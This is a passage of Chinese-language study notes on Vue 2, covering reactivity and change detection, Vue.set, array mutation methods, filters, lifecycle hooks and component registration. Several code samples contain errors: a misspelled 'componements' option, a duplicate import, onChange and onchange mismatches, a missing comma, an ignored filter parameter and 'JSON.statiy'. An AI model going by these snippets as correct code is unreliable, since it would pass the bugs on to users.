    </div>
    <script>
        new Vue({
            el:'#root',
            computed:{
                filPersons(){
                  const arr =   this.persons.filter((p)=>{
                       return p.name.indexOf(this.keyWord) !== -1
                    })
                    //为0时不进该判断
                    if(this.sortType){
                        //升降序方法.sort(a,b)两个入参。升序-前减后，降序-后减前
                        arr.sort((p1,p2)=>{
                            return this.sortType === 1? p2.age - p1.age : p1.age - p2.age
                        })
                    }
                    return arr;
                }
            },
            data:{
                keyWord:'',
                sortType:0, // 0原顺序 1降序 2升序
                persons:[
                    {id:'001',name:'马冬梅',age:18,sex:'女'},
                    {id:'002',name:'周冬雨',age:19,sex:'女'},
                    {id:'003',name:'周杰伦',age:20,sex:'男'},
                    {id:'004',name:'温兆伦',age:21,sex:'男'},
                ],
            },
            methods:{

            }
        })
    </script>
</body>
```


## 16.Vue监测数据改变的原理

这里注意，修改更新data中的数据时存在这样一个问题：

```vue
<body>
    <div>
        <h3>人员列表</h1>
    </div>
    <div id="root">
        <button @click="updataMei">点击更改马冬梅的数据</button>
        <ul>
            <li v-for="(p,index) of persons" :key="p.id">
                {{p.name}}-{{p.age}}-{{p.sex}}
            </li>
        </ul>
    </div>
    <script>
       const vm =  new Vue({
            el:'#root',
            computed:{
            },
            data:{
                persons:[
                    {id:'001',name:'马冬梅',age:18,sex:'女'},
                    {id:'002',name:'周冬雨',age:19,sex:'女'},
                    {id:'003',name:'周杰伦',age:20,sex:'男'},
                    {id:'004',name:'温兆伦',age:21,sex:'男'},
                ],
            },
            methods:{
                updataMei(){
                    //这里挨个修改data中的第一行数据
                    this.persons[0].name = '马老师';
                    this.persons[0].age = '50';
                    this.persons[0].sex = '男';
                    //这里整体修改data中的第一行数据 【会发现此种写法它不生效】
                    this.persons[0] = {id:'001',name:'马老师',age:50,sex:'男'}
                }
            }
        })
    </script>
</body>
```

运行结果：

****

可以看出，逐条修改数据，可以成功修改Vue中的数据，并且更新页面上的显示；但是整体修改，Vue中的数据确实被修改了，这里通过vm可以看出，页面上却不更新显示。

由此我们在这里探讨：Vue监测数据改变的原理。（Vue是如何监测数据改变的）

### 响应式解析过程

data中数据的解析过程：

​	在数据代理小节：我们知道，Vue将data中的数据复制一份,形成了`_data`。Vue通过`_data`进行数据代理生成页面上的data。

​	但是，这儿能看出我们写的data和vm中的_data，`_data`结构上比我们写的多了些东西。这里说明Vue不是单纯的复制了我们写的data，它对data进行了加工。

​	它对data进行加工的作用，使得我们在修改data中的数据的时候，它通过setter方法重新解析模板。这就是响应式。

​	整个响应式流程：data中name修改，形成新的`_data.name`，调用setter方法、重新解析模版，生成虚拟dom，新旧dom对比算法，复用旧dom/生成新dom。



### 模拟数据监测	

这里我们不使用Vue，单独写一个对象的数据监测：

```html
<!--Vue的数据检测类似 -->
<script text="text/javascript">
            let data = {
                name: 'username',
                age:'12'
            }

            //这里创建一个监视的实力对象，用于监视数据data中的数据变化
           const obs =  new Observer(data);
           console.log(obs); //这里的obs打印输出来和data一致
           
           //Observer函数：入参为需要监视的数据对象
           function Observer(obs){
            //取对象中所有的属性形成一个数组 ，这里是[name,age]
            const keys = Object.keys(obs)
            //遍历
            keys.forEach((k)=>{
                //k为每一个属性,this为整个obs实例对象
                //Object.defineProperty(对象,'属性',{})
                Object.defineProperty(this,k,{
                    //读：就把改属性的值返回去
                    get(){
                        console.log("被读");
                        return obs[k]
                    },
                    //改：就把收到的值替换到对应属性
                    set(val){
                        console.log("被改");
                        obs[k] = val
                    }
                })
            })
           }
        </script>
```

注意不能直接对data使用defineProperty，防止死循环

```js
//死循环代码
//这种监视会反复调用读取，导致卡死
Object.defineProperty(data,'name',{
	get(){
		return data.name
	}
})
```

### Vue里的对象监测原理

​	Vue底层的对象监测类似于此，依赖于Vue.set()

### Vue.set()

注意，Vue里模版中使用一个对象中不存在的属性，则值默认为undefined。如果Vue在页面中遇到undefined，则默认成什么都不展示，且控制台无报错。

当Vue里模版中使用vm身上不存在的属性，控制台就会报错告诉你未定义。



所以这里，我们设置一个属性时，将其定义在对象中。保证我们的演示效果，写法如上图左侧

我们需要对student.sex实时追加属性值，使得页面上同时进行实时更新。

这里使用Vue.set()  [官网API地址](https://v2.cn.vuejs.org/v2/api/#Vue-set)

```js
//Vue提供函数  target改动对象，key操作的属性，val修改的值
Vue.set(target,key,val)

//vm._data取对象
Vue.set(vm._data.student,'sex','男')
//或者vm.data取对象，数据代理原理
Vue.set(vm.student,'sex','男')
```

或者使用vm.$set()

```js
vm.$set(target,key,val)

//vm._data取对象
vm.$set(vm._data.student,'sex','男')
//或者vm.data取对象，数据代理原理
vm.$set(vm.student,'sex','男')
```

注意：对象不能是 Vue 实例，或者 Vue 实例的根数据对象。Vue.set()不是万能的，其设定了禁止直接对vm进行操作。即，只能操作data里的对象，不能操作data对象，例如：

```js
//使用Vue.set()直接在vm中加入sex属性
//此操作会报错，告诉你禁止直接操作vm下的data对象。
//下面是两种错误写法
Vue.set(vm._data.sex,'sex','男')
Vue.set(vm.sex,'sex','男')
```


### Vue里的数组监测原理

Vue如何检测**数组**里的数据改变

我们将data中设置一组对象数据，和一组数组数据，我们在页面控制台输出的data中可以看到两个数据的差别

Vue在加工的时候，给对象都创建了getter和setter方法。但是数组却没有。



当我们修改数组的时候

```js
this.school[0] = '大学'  //页面不生效
```

原因这儿就找到了！页面模版的重新解析，依赖了数据中的setter方法，而数组没有setter。所以当我们修改数组时，vm的data中确实数据发生了更改，而页面却没有任何变化。这就也解释了为什么人员列表的时候，persons数组列表中直接修改第一行的数据，vm被改动，但页面不生效的现象了。

在Vue 的设计者认为中，数组应使用修改数组的一些方法对其进行修改。只有当使用数组的通用修改方法时，Vue才承认数组被改变了，才能够监测到数组数据的改变。

修改数组的一些常用方法：

​	push：在数组尾部添加一个元素

​	pop：删除最后一个元素

​	shift：删除第一个元素

​	unshift：在数组头部添加一个元素

​	splice：在某索引处进行删除、修改、添加

​	sort：数组排序

​	reverse：数组翻转

当使用上面这些方法时，Vue则可以成功监测到数据改变，同步更新页面。例如：

```js
vm._data.school.push('大学')
```

当然，提供的Vue.set() 依旧对数组有效

```js
Vue.set(vm._data.school,0,'大学')
```

不过需要注意的是，这里vm使用的push及其以上方法，并是不原生态的Array数组使用的push方法。Vue对其进行了包装。[官网API地址](https://v2.cn.vuejs.org/v2/guide/list.html#数组更新检测)

```js
//控制台验证
vm._data.school.push === Array.prototype.push   //false
```

## 17.表单数据收集

表单数据收集时：

ajax前台往后台传参数的时候，把一组数据转成JSON格式的

JSON.statiy()数据转换成JSON格式

收集表单数据：可以用this._data，但是一般不推荐直接使用

建议整个表单数据，前面包一个对象，通过 对象收集 this.queryInfo

v-model的修饰符：

v-model.trim => 不收集输入的空格（所有的空格都不收集）

v-model.number => 收集的数据自动转成数值类型

v-model.lazy => 收集时，需要失去焦点后再记录

小结：

如果input框的type类型是text，v-model收集的是value，用户输入的也是value

如果类型是radio，需要给标签配置value值

如果类型是checkbox， 没有设置value，收集的是是否被选中，true/false

配置了value，初始值是数组，收集的是选中的数组。是非数组，收集的是布尔值

## 18.过滤器

小案例：当前时间戳的转换。【日期第三方库 moment.js 、 dayjs】

我们用三种实现方式：计算属性、methods、过滤器 分别实现

```vue
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>过滤器</title>
    <script src="js/vue.js"></script>
    <!-- 日期转换方法第三方库引入 -->
    <!-- 有互联网也可以引在线的 -->
    <!-- https://www.bootcdn.cn/ 搜索dayjs 复制链接 另存为 -->
    <script src="js/dayjs.min.js"></script>
</head>
<body>
    <div id="root">
        <h1>过滤器 时间戳切换</h1>
        <h3>当前时间：{{time}}</h3>
        <!-- 计算属性 实现 -->
        <h3>当前时间：{{timeComputed}}</h3>

        <!-- methods 实现 -->
        <h3>当前时间：{{getNowTime()}}</h3>

        <!-- filter 实现 -->
        <!-- | 管道符前面的为入参 后面的为过滤器函数 -->
        <!-- 后面的函数return的内容 整个替换掉插值位置的所有内容 显示 -->
        <h3>当前时间：{{time | timeFormater}}</h3>

        <!-- filter传参 -->
        <!-- 默认第一位参数为 | 前参数，第二位参数为小括号内参数 -->
        <h3>当前时间：{{time | timeFormater("YYYY年MM月DD日")}}</h3>

        <!-- filter串联 -->
        <!-- 串联不影响传参 -->
        <!-- mySlice只接受timeFormater返回地方值进行计算 挨着串联 只处理该函数 | 前的返回值为入参-->
        <h3>当前年份：{{time | timeFormater("YYYY年MM月DD日") | mySlice}}</h3>
    </div>

    <script>
        //定义全局过滤器
        //一次只能定义一个
        //Vue.filter('注册全局过滤器名称',function(入参){方法体}
        Vue.filter('mySlice',function(val){
            return val.slice(0,4)
        })
        
        new Vue({
            el:'#root',
            data:{
                time:Date.now(),

            },
            computed:{
                timeComputed(){
                    return dayjs(this.time).format('YYYY-MM-DD HH:mm:ss')
                }   
            },
            methods:{
                getNowTime(){
                    return dayjs(this.time).format('YYYY-MM-DD HH:mm:ss')
                }
            },
            //注意：new Vue中的filters 可以写多个。里面的每一个filter都属于局部过滤器。当这个Vue是组件时，A组件和B组件的filter不能相互使用。
            filters:{
                //timeFormater(val){  没有第二入参的写法
                    timeFormater(val,str = 'YYYY-MM-DD HH:mm:ss'){  //有第二入参用入参，没有用默认的 = 后的这个
                    //return 'hello' 返回啥页面就是啥，完全依赖此处return
                    return dayjs(val).format('YYYY-MM-DD HH:mm:ss')
                },
                mySlice(val){
                    return val.slice(0,4)
                }
            }
            
        })
    </script>
</body>
</html>
```

⚠️注意：new Vue中的filters 可以写多个。里面的每一个filter都属于局部过滤器。当这个Vue是组件时，A组件和B组件的filter不能相互使用。

```vue
<!-- 过滤器使用方式 -->
<!-- 插值语法 -->
<h3>当前时间：{{time | timeFormater}}</h3>
<!-- 单向属性绑定（双向用不了，这种形式也用的比较少） -->
<h3 :x="time | timeFormater"></h3>
```

🏷小结：一般用于 对要显示的数据进行特定格式化后再显示（适用于一些简单逻辑的处理）


## 19.生命周期



**生命周期:**
&emsp;&emsp;1.又名: 生命周期回调函数、生命周期函数、生命周期**钩子**。（只需要准备好函数，在特定的时间，将函数钩出来使用。）

&emsp;&emsp;2.是什么: Vue在关键时刻帮我们调用的一些特殊名称的函数。

&emsp;&emsp;3.生命周期函数的名字不可更改，但函数的具体内容是程序员根据需求编写的

&emsp;&emsp;4.生命周期函数中的this指向是vm或组件实例对象。



实现一个幻灯片渐隐渐现的效果

```vue
<!-- 定时器写在外部(不推荐) -->
<body>
    <div id = "el">
        <!-- 此处为 :style="{opacity:opacity}" 因为style中为js函数体，函数体同名可以省略，由此写成下面的这种形式-->
      <h2 :style="{opacity}">一个渐隐渐现的效果</h2>
    </div>

    <script>
       const vm = new Vue({
            el:'#el',
            data:{
                opacity:1  //初始化：默认透明度为1
            },
        })

        //再Vue外面写一个定时器，循环操作vm
        setInterval(()=>{
            //每次透明度减小0.01
           vm.opacity -= 0.01
           //注意此处写成 <=0 ,而不是写成 ==0 ，因为在js中 0.1 +0.1 不一定等于0.2 ，所以在-0.01的时候不一定会刚好减到0，有可能直接奔负数就去了
           //一旦发现透明度减完了，就使其恢复到1
           if(vm.opacity <= 0) vm.opacity =1 
        },16) //每隔16毫秒就减一次透明度
    </script>
</body>
```

使用声明周期函数，使得定时器能够自然的存在于Vue的内部

原理：Vue在解析完模板，由虚拟DOM生成真实DOM之后，会默认调用的几个函数，帮我们完成在元素加载后，自动调用需要调用的函数 【在Vue整个干活过程中，特殊的时间点，去调用的函数，统称为生命周期函数】

```vue
<!-- mounted()生命周期函数 写法-->
<body>
    <div id = "el">
      <h2 :style="{opacity}">一个渐隐渐现的效果</h2>
    </div>

    <script>
       new Vue({
            el:'#el',
            data:{
                opacity:1  //初始化：默认透明度为1
            },
            //Vue完成模版的解析并把真实的DOM元素放入页面后（挂载完成）调用mounted
            //只在真DOM放入时调用一次，后面解析模板不会再被调用
            mounted(){
                    setInterval(()=>{
                        this.opacity -= 0.01
                        if(this.opacity <= 0) this.opacity =1 
                    },16)
                
            }
        })
    </script>
</body>
```

官方操作手册中给出了非常完整的Vue生命周期图示：[如这里](https://v2.cn.vuejs.org/v2/guide/instance.html#生命周期图示) ， 同时也给了详细的解释。这里我们仅仅将图拿过来，进行简单的备注和阐述。


阅读此图注意：

- **实色填充图形**均为 生命周期 **流程**
- **红色圆角矩形框** 均为 生命周期 **函数** 
- 绿色填充和黄色填充圆角矩形框和菱形框 均为 生命周期  **某环节**

### 生命周期_挂载流程

- beforeCreate() 第一个生命周期函数：

- 数据创建前

  首先打印函数名称，确定函数执行；其次验证vm上并没有data的数据代理

  ```vue
  <body>
      <div id = "el">
          <h2>当前的n值是：{{n}}</h2>
          <button @click = "add">点我n+1</button>
      </div>
  
      <script>
         new Vue({
              el:'#el',
              data:{
                 n:1
              },
             methods:{
                  add(){ n++}
              },
              beforeCreate(){
                  console.log('beforeCreate');
                  console.log(this);
                  debugger;
              }
          })
      </script>
  </body>
  ```

  控制台表现

  

- created() 第二个生命周期函数：

- 数据创建完毕

  首先打印函数名称，确定函数执行；其次验证vm上完成了data的数据代理

  ```vue
  <body>
     ....
  
      <script>
         new Vue({
             .....
              beforeCreate(){
                  console.log('beforeCreate');
              },
              created(){
                  console.log('created');
                  console.log(this);
              }
          })
      </script>
  </body>
  ```

  控制台表现

  

- beforeMount() 第三个生命周期函数

- 数据挂载前

  首先打印函数名称，确定函数执行；其次验证vm中有值，但此时并没有将解析结果（值）放入页面

  ```vue
  <body>
     ....
  
      <script>
         new Vue({
             .....
              beforeCreate(){
                  console.log('beforeCreate');
              },
              created(){
                  console.log('created');
              },
              beforeMount(){
                  console.log('beforeMount');
                  console.log(this);
                  debugger;
              },            
          })
      </script>
  </body>
  ```

  控制台表现

  

  验证此处对DOM的所有操作，最终都不会有效

  

- mounted() 第四个生命周期函数

- 数据挂载完毕

  首先打印函数名称，确定函数执行；其次，确定页面上所有的元素都被解析完成，且挂载完毕

  ```vue
  <body>
     ....
  
      <script>
         new Vue({
             .....
              beforeCreate(){
                  console.log('beforeCreate');
              },
              created(){
                  console.log('created');
              },
              beforeMount(){
                  console.log('beforeMount');
              },
              mounted(){
                  console.log('mounted');
                  console.log(this);
                  debugger;
              },
          })
      </script>
  </body>
  ```

  控制台效果

  

  到此，整个挂载流程结束。

  挂载流程 - 图解：

  



在使用template模版对象时，有多个节点只能用`<div>`标签进行包裹，不能使用`<template>`标签。

```vue
<script>
.....
//只能使用div
template:`
    <div>
        <h2>当前的n值是：{{n}}</h2>
        <button @click = "add">点我n+1</button>
    </div>
`,
......
//不能使用template
template:`
    <template>
        <h2>当前的n值是：{{n}}</h2>
        <button @click = "add">点我n+1</button>
    </template>
`,
</script>
```

我们知道`<template>`标签，在页面解析的时候，会自动隐藏掉最外的一层，只显示`<template>`标签里面的内容。所以，容易产生`<template>`标签里面多根节点的问题。导致template模版对象编译失败报错




### 生命周期_更新流程

- beforeUpdate() 第五个生命周期函数

- 在页面数据更新完成前

- 首先打印函数名称，确定函数执行；其次，验证此环节：数据已经更改，但页面并未更新

  ```vue
  <body>
     ....
  
      <script>
         new Vue({
             .....
              beforeCreate(){
                  console.log('beforeCreate');
              },
              created(){
                  console.log('created');
              },
              beforeMount(){
                  console.log('beforeMount');
              },
              mounted(){
                  console.log('mounted');
              },
              beforeUpdate(){
                  console.log('beforeUpdate');
                  console.log(this.n);
                  debugger;
              },           
          })
      </script>
  </body>
  ```

  控制台效果

  

- updated() 第六个生命周期函数

- 在页面数据更新完毕

- 首先打印函数名称，确定函数执行；其次，验证此环节：数据已经更改，页面完成更新

  ```vue
  <body>
     ....
  
      <script>
         new Vue({
             .....
              beforeCreate(){
                  console.log('beforeCreate');
              },
              created(){
                  console.log('created');
              },
              beforeMount(){
                  console.log('beforeMount');
              },
              mounted(){
                  console.log('mounted');
              },
              beforeUpdate(){
                  console.log('beforeUpdate');
              },
              updated(){
                  console.log('updated');
                  console.log(this.n);
                  debugger;
              },
          })
      </script>
  </body>
  ```

  控制台效果

 	

到此，整个更新流程结束。

更新流程 - 图解：


### 生命周期_销毁流程



vm被销毁：

&emsp;&emsp;使得该vm不再工作（数据变化时，不再继续解析了）

&emsp;&emsp;但是原来工作的成果还在（即，已经被解析挂载的页面不会有变化）。

官方解释：https://cn.vuejs.org/v2/api/#vm-destroy




- beforeDestroy() 第七个生命周期函数
- 将要销毁前
- 这里是可以访问所有的vm中的所有数据和方法的，但是此时所有对数据的修改都不会再返过去触发更新流程了。即，这里所有的数据修改操作，页面都不会有任何效果。（值可以随便用，方法可以随便调，页面不会有变化）

```vue
<script>
    new Vue({
        .....
        beforeDestroy(){
        console.log('beforeDestroy');
        console.log(this.n); //能正常拿到
        this.n = 99  //改行操作无用
    	},
    })
</script>
```


- destroyed() 第八个生命周期函数
- 销毁完毕

```vue
<script>
    new Vue({
        .....
        beforeDestroy(){
        console.log('beforeDestroy');
    	},
        destroyed(){
            console.log('destroyed');
        }
    })
</script>
```

到此，整个销毁流程结束。

销毁流程 - 图解：


### 生命周期_总结

整个生命周期 - 图解：



4对生命周期钩子：

vm的一生(vm的生命周期):
&emsp;&emsp;将要创建========>调用beforeCreate函数。

&emsp;&emsp;创建完毕========>调用created函数。

&emsp;&emsp;将要挂载========>调用beforeMount。

&emsp;&emsp;(重要)挂载完毕==>调用mounted函数========>【重要的钩子】
&emsp;&emsp;将要更新========>调用beforeUpdate数。

&emsp;&emsp;更新完毕========>调用updated函数。

&emsp;&emsp;(重要)将要销毁==>调用beforeDestroy函数。========>【重要的钩子】

&emsp;&emsp;销毁完毕========>调用destroyed函数。
这块流程中：主要阐述8个钩子。还有3个常用的钩子，需要在特殊的场景才能被调用，我们会在路由小节中进行详细描述。

# 第2章：Vue组件化编程

## 20.组件

**Vue组件化编程**

传统方式编写应用，存在2个问题：

&emsp;1、依赖关系混乱不好维护（一堆html引用一堆js和css）；

&emsp;2、代码复用率不高。

**组件的定义**：

&emsp;实现应用中**局部**功能**代码**(html、js、css)和**资源**(mp3、gif)的**集合**

**模块化**：

&emsp;当用js来写的，并且将一个大的js按照模块分成多个不同的js来编写应用，就称为一个模块化应用

**组件化**：

&emsp;当用组件来写，并且应用中的功能都是多个组件来编写的，就称为一个组件化的应用。

&emsp;组件复用不需要复制粘贴，只需要引用即可。非常方便。


### 非单文件组件

一个文件中包含有n个组件。例如：a.html中有4个组件


### 单文件组件

一个文件中只包含有1个组件。例如：a.vue中有且只有唯一一个组件


### Vue中使用组件的三步

1、创建组件

```vue
 <script>
        //创建school组件
       const school = Vue.extend({
        //组件定义时，一定不要写el配置项
        //因为最终所有的组件都要被一个vm管理，由vm决定服务于哪个容器
        //el:'#el',
        //data这里必须写成函数形式
        data(){
            //在return中返回你要设置的data内容
            //这个问题在el于data的写法小节有铺垫过
            //原因就是：data对象式直接使用了同一个对象，导致多方调用时，相互影响。
            //而data函数形式，每一次调用都是return创建的一个新的对象，解决了多方调用被相互影响的问题。
            return{
                name:'某学校',
                address:'某地址'
            }
        },
        template:`
        <div>
            <h2>学校名称：{{name}}</h2>
            <h2>学校地址：{{address}}</h2>
        </div>
        `
       })

       //创建student组件
       const student = Vue.extend({
        data(){
            return{
                name:'张三',
                age:'18'
            }
        },
        template:`
        <div>
            <h2>学生名称：{{name}}</h2>
            <h2>学生年龄：{{age}}</h2>
        </div>
        `
       })

    new Vue({
        el:'#el',
    })
</script>
```

2、注册组件



全局注册

```vue
Vue.component('school',school)
```



```vue
<script>
    new Vue({
        el:'#el',
        //全新配置项
        //注册组件（局部注册）
        components:{
            school:school,
            student:student
        }
    })
</script>
```

3、编写组件标签，使用组件

```vue
<body>
    <div id = "el">
         <!-- 编写组件标签 -->
        <school></school>
        <student></student>
    </div>
</body>
```

实现效果以及Vue开发者工具节点体现如图：



### 细节点注意

&emsp;1.关于组件名:
&emsp;&emsp;一个单词组成:
&emsp;&emsp;&emsp;第一种写法(首字母小写):school
&emsp;&emsp;&emsp;第二种写法(首字母大写):School

&emsp;&emsp;多个单词组成:
&emsp;&emsp;&emsp;第一种写法(kebab-case命名):my-school

```vue
<my-school></my-school>

components:{
	'my-school':school,
}
```

&emsp;&emsp;&emsp;第二种写法(CamelCase命名):MySchool(需要Vue脚手架支持)

```vue
<!-- 不在Vue脚手架里会报错 -->
<MySchool></MySchool>

components:{
	MySchool:school,
}
```

&emsp;&emsp;备注:
&emsp;&emsp;&emsp;(1).组件名尽可能回避HTML中已有的元素名称，例如:h2、H2都不行。
&emsp;&emsp;&emsp;(2).可以使用name配置项指定组件在开发者工具中呈现的名字。

```vue
<script>
       const student = Vue.extend({
        //自定义组件名字 - 没有这个就取注册时候的key:value的key值
        name:'student'
        data(){
            return{
                ....
            }
        },
        template:....
       })
</script>
```

&emsp;2.关于组件标签:

&emsp;&emsp;第一种写法:`<school></school>`

&emsp;&emsp;第二种写法:`<schoo1/>`

&emsp;&emsp;备注:不用使用脚手架时，`<school/>`会导致后续组件不能渲染

```vue
<!-- 两种写法：页面均可正常渲染school组件 -->
<myshool></myshool>
<myshool/>

<!-- 页面渲染三个school组件 -->
<myshool></myshool>
<myshool></myshool>
<myshool></myshool>

<!-- 页面只渲染一个school组件，后面的不再渲染 -->
<myshool/>
<myshool/>
<myshool/>

```

&emsp;3.一个简写方式:
&emsp;&emsp;const  school =Vue.extend(options)可简写为:const school = options

```vue
 <script>
     //主动调用组件扩展方法extend
       const student = Vue.extend({
        data(){
            return{
              ...
            }
        },
        template:....
       })
           
     //简写
     const student = {
        data(){
            return{
              ...
            }
        },
        template:....
       } 
     
      new Vue({
            el:'#el',
            //注册组件时判断：有写extend直接使用组件，没有则帮忙调用extend之后使用组件
            components:{
                school:school,
            }
        })
</script>
```

### 组件的嵌套

下方是三个组件的嵌套。

所有的组件都嵌在app组件中，app组件中有同级school组件、hello组件，school组件中含有student组件、

代码如下：

```vue
<!DOCTYPE html>
<html lang="en">
    <head>
        <meta charset="UTF-8">
        <title>Document</title>
        <script src="../js/vue.js"></script>
    </head>
    <body>
        <div id = "el">
            <app></app>
        </div>
        <script>
            //创建student组件
            const student = Vue.extend({
                data(){
                    return{
                        name:'张三',
                        age:'18'
                    }
                },
                template:`
        <div>
            <h2>学生名称：{{name}}</h2>
            <h2>学生年龄：{{age}}</h2>
            </div>
        `
            })

            //创建school组件
            const school = Vue.extend({
                data(){
                    return{
                        name:'某学校',
                        address:'某地址'
                    }
                },
                template:`
        <div>
            <h2>学校名称：{{name}}</h2>
            <h2>学校地址：{{address}}</h2>
            <!-- 2在哪里注册的，在哪个模版中写 -->
            <student></student>
            </div>
        `,
                //注册组件
                components:{
                    //1定义组件的代码，要写在注册组件之前（比如这里的14~27行代码，必须在49行代码之前）
                    //简写
                    student
                }
            })


            const hello = Vue.extend({
                template:`<h1>你好鸭！欢迎来进行学习~</h1>`
            })

            const app = Vue.extend({
                template:`
        <div>
            <hello></hello>
            <school></school>
            </div>
        `,
                components:{
                    hello,
                    school
                }
            })

            new Vue({
                el:'#el',
                //注册组件
                components:{
                    //简写
                    app
                }
            })
        </script>
    </body>
</html>

```

页面及控制台运行效果：





1 定义组件的代码，要写在注册组件之前

2 子组件只能写在，注册的父组件的模版template中



### VueComponent结构函数

关于VueComponent：
1.school组件本质是一个名为VueComponent的构造函数，且不是程序员定义的，是Vue.extend生成的

```js
const school = Vue.extend({})
//定义组件后，打印组件
console.log("@",school);
```

控制台输出为：


这里可以看出，其是一个函数。严谨上来讲，我们称其为构造函数，其调用方式应该为`new VueComponent()`

我们打开Vue.js查找VueComponent函数，打印一段文字。我们会发现，当我们使用组件时候，使用一次就调一次该函数。即，有一个`<school></school>`调一次new，有三个，就调3次。


2.我们只需要写`<school/>`或`<school></school>`，Vue解析时会帮我们创建school组件的实例对象，即Vue帮我们执行的：new VueComponent(options)。


3.特别注意：每次调用Vue.extend，返回的都是一个全新的VueComponent！！！！

```js
const school = Vue.extend({})
const student = Vue.extend({})
//定义组件后，打印组件
console.log("@",school);
console.log("@",student);

//打印出来的东西，看起来都是长一样的，都是VueComponent
//但是是两个全新的，各自独立的，功能长相都一样的 VueComponent

//-----------------验证-----------------
console.log(school === student); //false

school.a = 99
console.log(school.a);  //99
console.log(student.a); //undefind
```


4.关于this指向：

&emsp;(1).组件配置中：

&emsp;&emsp;data函数、methods中的函数、watch中的函数、computed中的函数它们的this均是【VueComponent实例对象】

&emsp;(2).new Vue()配置中：

&emsp;&emsp;data函数、methods中的函数、watch中的函数、computed中的函数 它们的this均是【Vue实例对象】

5.VueComponent的实例对象，以后简称vc(也可称之为:组件实例对象)。

&emsp;Vue的实例对象，以后简称vm。

控制台输出vm，结构里面能通过$children很清晰的看见各个组件的 结构关系，和上下管理层级关系。


### Vue实例 & 组件实例

vm和vc从结构上来看基本上一致，但并不是完全一致，并不是完全相等的两个东西。

首先，vm是Vue创建实例的时候，生成的实例对象；vc是VueComponent创建实例的时候，生成的实例对象。

Vue生成实例对象和VueComponent生成实例对象的缔造过程并不是一模一样的！所以他们两并不是完全一样的

其次，vm中是可以使用el配置项的，用于指定服务于哪个容器；vc中是不能使用el的

再有，vm中的data可以写成data:{}，也可以写成data(){}；但是vc中data只能写成data(){return }函数形式


### 内置关系

首先复习一个js上的属性概念：`.prototype` & `.__proto__` 

```vue
<script type="text/javascript">
    //定义一个构造函数
    function Demo(){
        this.a = 1
        this.b = 2
    }

    //创建一个Demo的实例对象
    const d = new Demo()

    //显式原型属性
    //只有function函数才有这个属性，实例对象是没有的
    //一般通过该条:程序员追加值
    console.log(Demo.prototype); //打印输出为 原型对象{}


    //隐式原型属性
    //实例对象默认都带有这个属性
    //一般通过该条程序自动访问值
    console.log(d.__proto__);//也打印输出为 原型对象{} ,且与上面的长得一样

    //通过 显式原型属性 操作原型对象，追加一个x属性
    Demo.prototype.x = 99

    //手动通过这种方式访问值
    //发现是同步更新到值的
    console.log(d.__proto__.x); //99

    //验证两个原型对象是否是完全相同的
    console.log(Demo.prototype === d.__proto__); //true 

    //通过Demo的实例对象访问
    console.log(d);  //Demo{a=1,b=2}  这里，Demo表示后面的{}里的对象内容，是由Demo缔造出来的
    console.log(d.x); //99   

    //为什么输出的d带着Demo
    //表示这个{}对象是谁构造出来的
    //例如
    function school(){}
    function student(){}
    const s = new school()
    const ss = new student()
    console.log(s); //school{}
    console.log(ss);//student{}
    //这里如果没有前面的这个名字，则分不清对象来自于哪里
</script>
```

由此引入一个重要的内置关系：

`VueComponent.prototype.__proto__ === Vue.prototype`

这个关系的作用：

让组件实例对象vc可以访问到Vue原型上的属性、方法

这是Vue独有的：增加了，vc原型对象的原型对象指向vm的原型对象。

```vue
<!-- 因为有这个内置关系：使得组件里this.x打印输出为99 得以实现 -->
<body>
    <div id = "el">
        <school></school>
    </div>
    <script>
     Vue.prototype.x = 99

       //创建school组件
       const school = Vue.extend({
        data(){
            return{
                name:'某学校',
                address:'某地址'
            }
        },
        template:`
        <div>
            <h2>学校名称：{{name}}</h2>
            <h2>学校地址：{{address}}</h2>
            <button @click="onChange">点击获取x的值</button>
        </div>
        `,
        methods:{
            onchange(){
                alert("当前x的值是"+this.x)
            }
        }
       })

       new Vue({
            el:'#el',
            components:{
                school
            }
        })
    </script>
</body>
```


### 单文件组件

单文件组件，均是以`xxxx.vue`的文件

命名规范：

一个单词的文件命名为：`school.vue`，`School.vue`

多个单词的文件命名为：`my-school.vue`，`MySchool.vue`

一般我们都使用大写字母开头进行命名，主要是为了和开发者工具那边的根节点结构展示的名字一样【这边写成小写开头，那边也会默认显示为大写】。

#### 1新建一个单文件组件School.vue

```vue
<!-- .vue文件中主要是：页面资源的合集，即html、css、js 
	为了迎合常见的前端三种资源显示的写法，vue提供了三个标签
分别是：
    1、组件的结构标签<template>
    2、组件的交互标签<script>
    3、组件的样式标签<style>
-->
<!-- 这里就能看出“非单文件”的一个弊端：
组件的样式是不能单独写的，是公共写公共引用的
“单文件”的样式，一个文件一个，是独立的    -->

<!-- 组件的结构标签 -->
<template>
<div class="demo">
    <h2>学校名称：{{name}}</h2>
    <h2>学校地址：{{address}}</h2>
    <button @click="onChange">点击获取x的值</button>
    </div>
</template>

<!-- 组件的交互标签 -->
<script>

    //组件需要被引用，外部使用import
    //这儿有三种暴露方式：
    // export const school = Vue.extend({})//1分别暴露
    // export{school}//2统一暴露
    // export default school //3默认暴露

    //我们一般使用默认暴露，因为引用时比较简单，只需要import 起名 from vue文件的位置；
    //export default Vue.extend({})
    //由于Vue.extend不写vue也会自动帮我们调用，所以这里可以简写
    export default{
        name:'School',//和文件名保持一致，开发者工具呈现的是这儿的名字
        data(){
            return{
                name:'某学校',
                address:'某地址',
                x:1
            }
        },
        methods:{
            onchange(){
                alert("当前x的值是"+this.x)
            }
        }
    }
</script>

<!-- 组件的样式标签 -->
<style>
    .demo{
        background-color: aqua;
    }
</style>
```

#### 2新建一个总体管理的顶级父组件App.vue

```vue
<template>
<!-- 这儿的div必须有，保证根节点 -->
 <div>
    <School></School>
 </div>
</template>

<script>
//引入组件
import School from './School.vue';
import School from './School.vue';

    export default{
        name:'App',
        //注册
        components:{
           School 
        }
    }
</script>
```

#### 3新建一个入口文件main.js

```js
//vue脚手架选择了main.js用来调用new Vue()创建vm实例对象
//引入App
import App from "./App.vue";

new Vue({
    el:"#root",
    componements:{App}
}) 
```

#### 4新建一个根容器文件index.html

```vue
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Document</title>
</head>
<body>
    <!-- 指定容器 -->
     <div id="root">
        <!-- 引用App -->
         <App></App>
     </div>

     <!-- 在模块加载完毕后引入 -->
     <script type="text/javascript" src="../js/vue.js"></script>
     <script type="text/javascript" src="./main.js"></script> <!-- main.js入口文件 -->
